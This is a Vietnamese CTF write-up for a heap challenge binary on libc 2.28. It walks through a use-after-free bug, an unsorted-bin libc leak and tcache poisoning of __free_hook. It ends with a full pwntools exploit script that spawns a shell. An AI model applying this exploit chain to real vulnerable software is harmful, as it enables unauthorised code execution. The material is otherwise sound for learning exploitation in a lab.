





### Thông tin:

```c
└─$ ls 
libc.2.28.so       pwn6_hoo
```
```c
└─$ file pwn6_hoo              
pwn6_hoo: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.28.so, for GNU/Linux 3.2.0, BuildID[sha1]=2bab9b4759f0784ceabd4f99b1fe29307160a32b, not stripped
```
```c                                                                                                   
└─$ checksec --file=pwn6_hoo   
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols   FORTIFY  Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   85 Symbols  No     0               2               pwn6_hoo
```

Challenge này chạy trên bản libc 2.28, là có sự xuất hiện của `tcachebins`
___
Code:

`main()`:

```c
void main(void)
{
  undefined4 option;
  
  initState();
  puts("Ez heap challange !");
  do {
    menu();
    option = readInt();
    switch(option) {
    default:
      puts("no option");
      break;
    case 1:
      createHeap();
      break;
    case 2:
      showHeap();
      break;
    case 3:
      editHeap();
      break;
    case 4:
      deleteHeap(0);
      break;
    case 5:
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}
```
`createHeap()`:
```c
undefined8 createHeap(void)
{
  int idx;
  void *ptr;
  
  printf("Index:");
  idx = readInt();
  if ((-1 < idx) && (idx < 10)) {
    ptr = malloc(0x80);
    *(void **)(store + (long)idx * 8) = ptr;
    *(undefined4 *)(storeSize + (long)idx * 4) = 0x80;
    printf("Input data:");
    readStr(*(undefined8 *)(store + (long)idx * 8),0x80);
    puts("Done");
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
* có thể tạo tối đa 10 heap chunks 
* mặc định mỗi size data là 0x80, vậy chunk là 0x90
	--> khi free(), chunk đủ đưa vào tcachebin 

`readStr()`:
```c
ulong readStr(void *buffer,uint size)
{
  int len;
  ulong bytes;
  
  bytes = read(0,buffer,(ulong)size);
  len = (int)bytes;
  if (len < 0) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (*(char *)((long)buffer + (long)len + -1) == '\n') {
    *(undefined1 *)((long)buffer + (long)len + -1) = 0;
  }
  return bytes & 0xffffffff;
}
```
`showHeap()`:
```c
undefined8 showHeap(void)
{
  int idx;
  
  printf("Index:");
  idx = readInt();
  if (*(long *)(store + (long)idx * 8) != 0) {
    printf("Data = %s\n",*(undefined8 *)(store + (long)idx * 8));
  }
  return 0;
}
```
* dùng để leak data bất kỳ trên chunk

`editHeap()`:
```c
undefined8 editHeap(void)
{
  int idx;
  
  printf("Input index:");
  idx = readInt();
  if ((idx < 10) && (-1 < idx)) {
    if (*(long *)(store + (long)idx * 8) != 0) {
      readStr(*(undefined8 *)(store + (long)idx * 8),*(undefined4 *)(storeSize + (long)idx * 4));
      puts("Done ");
    }
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
* cho phép overwrite vào phần data chunk với size định sẵn

`deleteHeap()`:
```c
undefined8 deleteHeap(void)
{
  int idx;
  
  printf("Input index:");
  idx = readInt();
  if ((idx < 10) && (-1 < idx)) {
    if (*(long *)(store + (long)idx * 8) != 0) {
      free(*(void **)(store + (long)idx * 8));
      puts("Done ");
    }
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
* trong hàm này, chỉ free() chunk 0x90 mà không set địa chỉ trong `store` về null
  ```c
  free(*(void **)(store + (long)idx * 8));
  puts("Done ");
  ```
* có thể tận dụng bug **Use-After-Free** với các hàm trên: **editHeap(), showHeap()**
___
### Khai thác:
Vì chương trình chạy trên bản libc 2.28 có mặt tcachebins: `libc.2.28.so`

Và `createHeap()` tạo mặc định chunk với kích thước `0x90` (0x10 + 0x80):
```c
    ptr = malloc(0x80);
    *(void **)(store + (long)idx * 8) = ptr;
    *(undefined4 *)(storeSize + (long)idx * 4) = 0x80;
```

Có nghĩa là khi free(), chỉ có thể khai thác trong tcachebins tại size 0x90

Vì tương ứng với tcachebin của một kích thước nhất định (ví dụ: 0x90), chỉ có thể giữ tối đa 7 chunks

Những chunk cùng size (0x90) sau đấy nếu được free() sẽ được đưa vào unsortedbin

Và ta có thể tận dụng bug này để leak địa chỉ libc:

* trước hết, `createHeap()` tạo 8 chunks trên heap, để khi free() thì 7 chunks đầu lấp đấy tcachebin size `0x90` và chunk cuối là chunk tràn sang unsortedbin
* `createHeap()` một chunk nữa (chunk thứ 9) để tránh chunk thứ 8 khi free() vào unsortedbin sẽ gộp với topchunk
* dùng `deleteHeap()` để free() 8 chunks tạo ra, lần lượt đưa 7 chunks đầu vào đầy tcachebins, chunk thứ 8 sẽ được đưa vào unsortedbin
* kiểm tra Heap, thấy chunk trong unsortedbin có con trỏ fd và bk trỏ đến `(main_arena)` là một địa chỉ libc
* vì có bug UAF, ta có thể truy cập vào dữ liệu bên trong freed chunk, ta leak địa chỉ `(main_arena)` với `showHeap()`  

Có được địa chỉ leak, tính ra libc.address và system 

Ta tiếp tục tận dùng bug UAF để khai thác lỗ hổng tiếp theo: 

Với hàm `editHeap()` cho phép overwrite vào fd của freed chunk

Vì tcachebins theo cấu trúc LIFO, ta sẽ overwrite vào fd của chunk cuối được free() trên tcachebins (chunk thứ 7)

==> Đây là bug liên quan tới **tcache poisoning**

Bug giúp ta chuyển hướng con trỏ sang vùng nhớ ta muốn: để khi tới các đợt `createHeap()` tiếp theo, malloc() sẽ trả về địa chỉ tới vùng nhớ đó và cho phép write thông tin vào.

Trong trường hợp này, ta sẽ overwrite fd của freed chunk thứ 7 với địa chỉ `__free_hook`. Hàm `__free_hook` thực thi khi free() được gọi

Khi đấy `createHeap()` đầu tiên, malloc() sẽ trả về địa chỉ chunk thứ 7 hợp lệ. `createHeap()` tiếp theo sẽ trả về địa chỉ của vùng nhớ `free_hook` ta tiêm vào lúc nãy.

```
Lưu ý: khác với fastbin, tcachebin không kiểm tra header hợp lệ của freed chunk sẽ trả về cho bên yêu cầu cấp phát động (chunksize ở metadata), nên ta không cần phải căn chỉnh 
```
Lúc này, overwrite vào vùng nhớ của `__free_hook` với `system` để khi ta gọi đến hàm free(), hàm `system` sẽ được gọi

Đến đây, chương trình quay lại menu() như bình thường. Nhưng nếu chọn option `deleteHeap()` là ta thực thi system.

Để có thể spawn shell, ta đến bước cuối:
* `createHeap()`: tạo một chunk bất kỳ với input data là "/bin/sh"
* `deleteHeap()`: sau đấy free() chunk vừa tạo chứa dòng string kia
* Khi này, `__free_hook` gọi đến `system` và các thanh ghi chứa dòng "/bin/sh". Chương trình sẽ thực thi: `system("/bin/sh")`












___
`script.py`:
```c
from pwn import *

libc = ELF("./libc.2.28.so", checksec=False)
context.binary = exe = ELF("./pwn6_hoo_patched", checksec=False)
context.log_level = "debug"

def GDB():
	gdb.attach(p, gdbscript='''
		handle SIGALRM ignore
		set max-visualize-chunk-size 0x300

		br *createHeap+73

		br *showHeap+111

		br *editHeap+167

		br *deleteHeap+123

		''')

p = process(exe.path)
# GDB()

def createHeap(idx, data):
	p.sendlineafter(b'>', b'1')
	p.sendlineafter(b'Index:', idx)
	p.sendlineafter(b'data:', data)

def showHeap(idx):
	p.sendlineafter(b'>', b'2')
	p.sendlineafter(b'Index:', idx)

def editHeap(idx, data):
	p.sendlineafter(b'>', b'3')
	p.sendlineafter(b'index:', idx)
	p.sendline(data)

def deleteHeap(idx):
	p.sendlineafter(b'>', b'4')
	p.sendlineafter(b'index:', idx)


createHeap(b'0', b'A'*4)
createHeap(b'1', b'B'*4)
createHeap(b'2', b'C'*4)
createHeap(b'3', b'D'*4)
createHeap(b'4', b'E'*4)
createHeap(b'5', b'F'*4)
createHeap(b'6', b'G'*4)
print(f'=================\n=================')
createHeap(b'7', b'H'*4)
# avoid merging idx7 with top chunk 
createHeap(b'8', b'E'*4)

deleteHeap(b'0')
deleteHeap(b'1')
deleteHeap(b'2')
deleteHeap(b'3')
deleteHeap(b'4')
deleteHeap(b'5')
deleteHeap(b'6')
print(f'=================\n=================')
deleteHeap(b'7')

GDB()
showHeap('7')
leak_libc = p.recvuntil(b'=')
leak_libc = p.recvline().strip()
leak_libc = u64(leak_libc.ljust(8, b"\x00"))
libc.address = leak_libc - 0x1e4ca0
print(f"leak_libc: {hex(leak_libc)}")
print(f"libc_base: {hex(libc.address)}")

free_hook = libc.address + 0x1e68e8
system = libc.address + 0x50300
print(f"system: {hex(system)}")
bin_sh = b'/bin/sh'
print(f"free_hook: {hex(free_hook)}")

# tcache: LIFO, inject into the last freed chunk on tcachebins (idx 6)
editHeap(b'6', p64(free_hook))
# create a valid chunk first (1)
createHeap(b'0', b'IM HERE')
# to __free_hook, overwrite with system
createHeap(b'1', p64(system))
# create a chunk with /bin/sh
createHeap(b'2', bin_sh)

deleteHeap(b'2')

p.interactive()
```
